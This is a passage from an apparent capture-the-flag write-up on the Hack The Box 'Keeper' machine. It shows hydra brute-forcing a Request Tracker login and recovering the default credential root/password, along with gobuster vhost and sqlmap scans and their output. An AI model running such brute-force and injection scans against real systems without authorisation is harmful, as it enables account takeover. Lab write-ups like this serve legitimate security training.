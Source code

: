 Since this seems to be a generic open source thing let's see if there are any known vulnerabilities for our version.

![Request Tracker version info from the login page](Assets/request_tracker_version.jpg)

Quite a few vulnerabilities but no obvious RCE vector. Let's run hydra and sql map in the background + vhost bust and google some more.

```bash
$ hydra -L /opt/SecLists/Usernames/top-usernames-shortlist.txt -P /opt/SecLists/Passwords/darkweb2017-top10000.txt "tickets.keeper.htb" http-post-form "/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:Your username or password is incorrect"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 169983 login tries (l:17/p:9999), ~10624 tries per task
[DATA] attacking http-post-form://tickets.keeper.htb:80/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:Your username or password is incorrect
[80][http-post-form] host: tickets.keeper.htb   login: root   password: password

 ... snip ...
$ gobuster vhost -u http://keeper.htb/ -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o recon/vhostbust
 ... nothing interesting ...
$ sqlmap --forms --level 5 -risk 3 -u http://tickets.keeper.htb/rt/NoAuth/Login.html
 ... nothing interesting ...
```

And instantly hydra returns a successful login! Lots of pages and options here but after digging for a bit we find a modify user page with some interesting details.
